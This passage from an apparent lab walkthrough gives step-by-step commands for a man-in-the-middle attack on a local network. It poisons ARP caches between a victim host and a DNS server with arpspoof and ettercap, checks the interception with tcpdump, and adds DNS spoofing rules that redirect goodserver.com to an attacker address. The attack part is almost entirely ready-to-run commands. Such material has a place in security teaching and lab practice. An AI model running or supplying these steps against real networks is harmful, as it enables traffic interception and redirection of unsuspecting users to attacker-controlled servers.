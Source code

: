 <div class="step-animation success">
<strong>Step 2:</strong> Execute ARP Poisoning Attack
</div>

```bash
# Method 1: Using arpspoof (simple)
# Terminal 1: Poison victim -> DNS server
sudo arpspoof -i eth0 -t 192.168.1.30 192.168.1.4

# Terminal 2: Poison DNS server -> victim  
sudo arpspoof -i eth0 -t 192.168.1.4 192.168.1.30

# Method 2: Using ettercap (advanced)
# Single command for bidirectional ARP poisoning
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.30// /192.168.1.4//
```

<div class="step-animation success">
<strong>Step 3:</strong> Verify ARP Poisoning Success
</div>

```bash
# Check if traffic is flowing through Kali Linux
sudo tcpdump -i eth0 -n host 192.168.1.30 and host 192.168.1.4

# Monitor for DNS queries being intercepted
sudo tcpdump -i eth0 -n port 53 and host 192.168.1.30
```

#### 2.3 Phase 3: DNS Spoofing Implementation

<div class="step-animation success">
<strong>Step 1:</strong> Configure DNS Spoofing with ettercap
</div>

```bash
# Create DNS spoofing configuration
sudo nano /etc/ettercap/etter.dns

# Add DNS redirection rules
echo "goodserver.com A 192.168.1.100" | sudo tee -a /etc/ettercap/etter.dns
echo "*.goodserver.com A 192.168.1.100" | sudo tee -a /etc/ettercap/etter.dns

# Launch ettercap with DNS spoofing
sudo ettercap -T -i eth0 -M arp:remote /192.168.1.30// /192.168.1.4// -P dns_spoof
```

<div class="step-animation success">
<strong>Step 2:</strong> Alternative Method - Using dnsspoof
</div>

```bash
# Create hosts file for dnsspoof
echo "192.168.1.100 goodserver.com" | sudo tee /tmp/dns_hosts

# Start ARP poisoning in background
sudo arpspoof -i eth0 -t 192.168.1.30 192.168.1.4 &
sudo arpspoof -i eth0 -t 192.168.1.4 192.168.1.30 &

# Start DNS spoofing
sudo dnsspoof -i eth0 -f /tmp/dns_hosts host 192.168.1.30
```
